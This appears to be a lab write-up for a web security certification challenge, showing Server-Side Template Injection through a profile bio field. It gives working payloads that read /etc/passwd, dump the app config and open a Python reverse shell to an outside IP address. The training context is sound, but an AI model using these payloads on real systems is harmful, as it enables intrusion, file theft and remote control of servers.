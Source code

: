 ```yaml
---
title: Challenge 13:Reverse Shells Are Not for The Weak
date: 2024-05-14 05:00:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     # TAG names should always be lowercase
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


### Challenge/Task

1. SSTI

**Proof-of-Concept (POC):**

Another injection type inside web application is Server-Side Template Injection (SSTI). SSTI is a type of security problem in websites or web applications. Imagine a website as a building made of many parts. One important part is called a "template," which is like a blueprint for how the website should look.

Now, sometimes, attackers can find a way to sneak their own instructions into these templates. It's a bit like someone sneaking a fake floor plan into a real building blueprint. When the website uses this fake plan, it could do things it's not supposed to, like showing secret information or even letting the attacker control parts of the website.

Usually, to test the SSTI we will insert {{}} syntax into these field or parameters. For example, enter {{ 7*7 }} into a bio field below:

![POC-otb](/img/cwae/rsa1.png){: w="400" h="400" }{: .normal }

Surprisingly, the 7*7 which is equal to 49 is reflected in the bio. That’s mean the parameter is vulnerable to SSTI.

How can attacker exploit this vulnerability? Inside {{}} syntax, attacker can put any command that will be executed by the server. First of all, we try to get the list of user by inserting below payload. It works

```jsx
" {{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }} "
```

![POC-otb](/img/cwae/rsa2.png){: w="400" h="400" }{: .normal }

Other sensitive info that we can retrieve is also the config by using payload below:
```jsx
" {{config.items()}} "
```

![POC-otb](/img/cwae/rsa3.png){: w="400" h="400" }{: .normal }

We will try to get a reverse shell from this vulnerability. Using below payload, we can get the reverse shell. But first, we have to setup our listener.

![POC-otb](/img/cwae/rsa4.png){: w="400" h="400" }{: .normal }

Then, we can send below payload to the bio input field. 
```jsx
" {{''.__class__.__mro__[1].__subclasses__()[213](['python', '-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("143.198.205.200",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']) }} "
```

![POC-otb](/img/cwae/rsa5.png){: w="400" h="400" }{: .normal }

After we click “update” button, our listener is starting to get the connection from the server. We are now inside the victim’s server. To prove it, I run id and whoami command showing that it belongs to the victims. 

![POC-otb](/img/cwae/rsa6.png){: w="400" h="400" }{: .normal }